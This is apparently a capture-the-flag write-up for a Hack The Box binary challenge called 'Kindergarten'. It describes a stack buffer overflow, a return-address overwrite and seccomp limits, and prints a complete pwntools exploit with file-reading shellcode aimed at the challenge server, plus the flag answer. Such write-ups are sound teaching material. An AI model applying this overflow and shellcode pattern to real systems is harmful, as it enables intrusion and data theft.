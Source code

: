 # Kindergarten

The task has a simple buffer overflow located in function kinder. After accepting 4 symbols “y” or “Y” the application allows to enter one more question which is written into a memory buffer which is less than the number of bytes the app allows to read.
Since the stack has no protections it is possible to overwrite the RIP address. An appropriate address for execution is 0x40093F located in function “kids_are_not_allowed_here”. This function executes buffer ans which is in bss section and has user-controlled data inside (written before the input of question starts).
The problem is that the binary has seccomp enabled which prohibits use of some syscalls. It is impossible to call execve to gain remote shell session. That is why it was necessary to write shellcode to read file flag.txt located near the vulnerable binary on the server. The shellcode is given in the exploit code:

```Python
from pwn import *
context.terminal = ['terminator', '-e']
#io = process("./kindergarten")
io = remote("docker.hackthebox.eu", 30323)
d = io.read()
print(d)
shellcode = b"\x31\xF6\xF7\xE6\x52\x48\xC7\xC1\x78\x74\x00\x00\x51\x48\xB9\x2E\x2F\x66\x6C\x61\x67\x2E\x74\x51\x54\x5F\xB0\x02\x0F\x05\x50\x5F\x54\x5E\x52\x52\x52\x52\x58\x66\xBA\x99\x09\x0F\x05\x5F\xFF\xC7\x50\x5A\x58\xFF\xC0\x0F\x05\x58\xB0\x3C\x0F\x05"
io.sendline(shellcode)
for i in range(4):
    d = io.read()
    print(d)
    io.sendline(b'Y')
    d = io.read()
    print(d)
    io.sendline(b'AAAA')
payload = b"A"*140 + p64(0x40093F)
io.sendline(payload)
io.interactive()
```

The successful exploitation can be seen on Figure 1.

![](pictures/2021-03-07-22-53-48.png)

Figure 2 – The successful expluatation

Flag: HTB{2_c00l_4_$cH0oL!!}.

